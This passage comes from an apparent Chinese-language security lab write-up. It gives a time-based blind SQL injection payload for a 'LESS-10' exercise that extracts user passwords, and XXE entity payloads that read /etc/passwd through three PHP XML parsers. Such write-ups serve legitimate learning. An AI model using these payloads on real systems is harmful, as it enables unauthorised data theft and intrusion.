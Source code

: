 ![image-20220325235227381](./image-20220325235227381.png)

## LESS-10

将单引号改为双引号接着注入即可，脚本和上面的一样，改一下Payload即可：

```python
payload = f"1\"/**/or/**/if(lpad((select/**/group_concat(distinct/**/password)/**/from/**/users),{i},1)>0x{hexstr}{hex(mid)[2:]},sleep(0.01),1)%23"
```

> 后面的作业完了再更。

# XXE - PHP Audit Basic

## DOMDocument

没有过滤，直接引用文件作为实体内容成功拿到：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<note>
	<name>&content;</name>
</note>
```

![image-20220327131958996](./image-20220327131958996.png)

## SimpleXMLElement

和上面的套路一样，还是外部文件实体即可：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<note>
	<name>&content;</name>
</note>	
```

得到：

![image-20220327132135218](./image-20220327132135218.png)

## simplexml_load_string

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<note>
	<name>&content;</name>
</note>	
```
